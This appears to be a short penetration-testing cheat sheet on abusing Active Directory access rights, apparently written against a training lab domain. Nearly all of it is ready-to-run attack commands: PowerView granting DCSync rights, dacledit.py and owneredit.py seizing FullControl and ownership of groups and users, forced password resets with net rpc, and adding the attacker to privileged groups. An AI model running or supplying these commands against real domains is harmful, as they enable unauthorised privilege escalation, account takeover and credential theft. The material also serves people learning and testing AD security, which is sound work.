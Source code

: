 From Windows

```
# Powerview
Add-DomainObjectAcl -TargetIdentity $(Get-DomainSID) -PrincipalIdentity holly -Rights DCSync -Verbose
```

### <mark style="color:yellow;">WriteDacl abusing objects</mark>

```bash
# Modify DACL over Finance group by adding full control
python3 dacledit.py -principal holly -target "Finance Managers" -dc-ip 10.129.205.11 zencorp.local/holly:pass123 -action write

# Add user to group
python3 addusertogroup.py -d zencorp.local -g "Finance Managers" -a holly -u holly -p DACLPass123
```

### <mark style="color:yellow;">WriteDacl abusing users</mark>

With WriteDacl grant GenericAll

```bash
python dacledit.py -action write -rights 'FullControl' -principal holly -target 'james' zencorp.local/holly:'pass123' 
```

The Change password or targeted kerberoast

```bash
net rpc password james ssap123 -U zencorp.local/holly%pass123 -S 10.129.205.81
```

### <mark style="color:yellow;">WriteOwner</mark>

A user with WriteOwner privileges hass the ability to modify the owner of the group. To change owernship:

```bash
python3 owneredit.py -action write -new-owner mathew -target 'NETWORK ADMINS' -dc-ip 10.129.218.254 zencorp.local/mathew:ilovejesus
```

If you need permission give yourself AddMember privileges.

```bash
python3 dacledit.py -principal mathew -target 'NETWORK ADMINS' -dc-ip 10.129.218.254 zencorp.local/mathew:ilovejesus -action write -rights FullControl
```

Then add yourself to the group:

```bash
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
